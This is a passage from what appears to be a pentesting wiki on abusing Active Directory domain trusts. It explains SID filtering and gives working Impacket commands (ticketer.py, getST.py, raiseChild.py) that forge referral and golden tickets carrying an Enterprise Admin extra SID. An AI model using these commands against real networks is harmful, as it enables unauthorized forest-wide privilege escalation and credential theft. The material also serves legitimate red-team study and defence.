     > For example the Exchange security groups, which allow for a [privilege escalation to DA](https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/) in many setups all have RIDs larger than 1000. Also many organisations will have custom groups for workstation admins or helpdesks that are given local Administrator privileges on workstations or servers.
    >
    > _(by_ [_Dirk-jan Mollema_](https://twitter.com/\_dirkjan) _on_ [_dirkjanm.io_](https://dirkjanm.io/active-directory-forest-trusts-part-one-how-does-sid-filtering-work/)_)_
* If **SID filtering is fully enabled**, the techniques presented above will not work since all SIDs that differ from the trusted domain will be filtered out. This is usually the case with standard inter-forest trusts. Attackers must then fallback to other methods of [permissions abuse](trusts.md#abusing-permissions). Alternatively, there are a few SIDs that won't be filtered out (see [SID filtering](trusts.md#sid-filtering) theory and [SID filtering bypass](trusts.md#sid-filtering-bypass) practice).&#x20;

{% hint style="info" %}
If the attacker chooses to forge an inter-realm ticket forgery (i.e. referral ticket), a service ticket request must be conducted before trying to access the domain controller. In the case of a golden ticket, the target domain controller will do the hard work itself. Once the last ticket is obtained, it can be used with [pass-the-ticket](broken-reference) for the [DCSync](credentials/dumping/dcsync.md) (if enough privileges, or any other operation if not).
{% endhint %}

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, [Impacket](https://github.com/fortra/impacket) scripts (Python) can be used for that purpose.

* ticketer.py to forge tickets
* getST.py to request service tickets
* lookupsid.py to retrieve the domains' SIDs

If SID filtering is disabled, set the RID to 519 to act as Enterprise Admin.

If SID filtering is partially enabled, set the RID >=1000.

<pre class="language-bash" data-title="Referral ticket" data-overflow="wrap"><code class="lang-bash"><strong># 1. forge the ticket
</strong>ticketer.py -nthash "inter-realm key" -domain-sid "child_domain_SID" -domain "child_domain_FQDN" -extra-sid "&#x3C;root_domain_SID>-&#x3C;RID>" -spn "krbtgt/root_domain_fqdn" "someusername"
 
# 2. use it to request a service ticket
KRB5CCNAME="someusername.ccache" getST.py -k -no-pass -debug -spn "CIFS/domain_controller" "root_domain_fqdn/someusername@root_domain_fqdn"
</code></pre>

{% code title="Golden ticket" overflow="wrap" %}
```bash
ticketer.py -nthash "child_domain_krbtgt_NT_hash" -domain-sid "child_domain_SID" -domain "child_domain_FQDN" -extra-sid "<root_domain_SID>-<RID>" "someusername"
```
{% endcode %}

Impacket's [raiseChild.py](https://github.com/fortra/impacket/blob/master/examples/raiseChild.py) script can also be used to conduct the golden ticket technique automatically **when SID filtering is disabled** (retrieving the SIDs, dumping the trusted domain's krbtgt, forging the ticket, dumping the forest root keys, etc.). It will forge a ticket with the Enterprise Admins extra SID.
